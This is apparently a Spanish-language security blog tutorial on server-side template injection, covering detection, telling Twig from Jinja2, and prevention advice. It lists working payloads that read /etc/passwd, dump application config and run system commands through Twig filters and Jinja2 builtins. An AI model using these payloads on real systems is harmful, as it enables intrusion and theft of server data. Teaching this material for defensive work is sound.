 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload:

    ${{<%[%'"}}%\. 

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

* `${7*7}`
* `a{*comment*}b`
* `${"z".join("ab")}`
* `{{7*7}}`
* `{{7*'7'}}`

#### Ejemplo

* Primero ingresamos `${7*7}`. Como no se interpretó, significa que debemos seguir en la tabla la flecha que dice "Si no funciona".
 
    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload `{{7*7}}`, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó, ahora debemos validar `{{7*'7'}}`. Si el resultado es `49`, estamos ante un motor **Twig**; si el resultado es `7777777`, estamos ante **Jinja2**.

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la variable `_self` es posible obtener más información de la plantilla. Ejemplo:

    {{ _self }}

#### Local File Inclusion

El framework PHP Symfony define filtros Twig adicionales; uno de estos filtros es `file_excerpt`, que permite leer archivos locales del sistema. Ejemplo:

    {{ "/etc/passwd"|file_excerpt(1,-1) }}

#### Ejecución remota de comandos (RCE)

Para lograr ejecución remota de código en entornos que permitan estas operaciones, se puede usar una función del entorno (por ejemplo `system`) a través de filters. Ejemplo:

    {{ ['id'] | filter('system') }}


### Explotación de Jinja

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción `import`, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web. Ejemplo:

    {{ config.items() }}

También podemos obtener información sobre las funciones integradas y objetos disponibles:

    {{ self.__init__.__globals__.__builtins__ }}

#### Local File Inclusion

Para explotar esta vulnerabilidad podemos utilizar `open` desde los `__builtins__`:

    {{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos podemos usar `__import__('os')` y ejecutar `popen` o `system`:

    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasarse únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar o restringir funciones peligrosas (como `eval` o `import`) y aislar el entorno de ejecución mediante contenedores o entornos separados. Finalmente, realizar auditorías de seguridad periódicas y aplicar defensa en profundidad (registro, monitoreo y controles de salida) ayudará a reducir el riesgo.
